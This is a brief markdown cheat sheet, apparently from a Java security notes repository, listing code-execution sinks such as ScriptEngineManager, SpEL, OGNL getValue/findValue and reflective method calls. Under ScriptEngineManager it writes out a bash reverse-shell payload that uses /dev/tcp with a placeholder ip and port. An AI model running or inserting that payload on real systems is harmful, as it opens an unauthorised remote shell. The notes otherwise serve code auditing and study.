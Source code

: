 
- ScriptEngineManager
  - java.lang.Runtime.getRuntime().exec(["/bin/bash","-c","/bin/bash -i >& /dev/tcp/ip/port 0>&1"])

- SpEL
   - [hibernate_validtor_EL_Execute](https://kevinsa.com/2020/06/17/hibernate-validtor-EL-Execute/)

- OGNL
  - getValue()
  - Internal implement principle: findValue

- Self-Implement-Reflection
  - 危险静态方法调用: static
  - xx.getClass.forName("").getMethod()

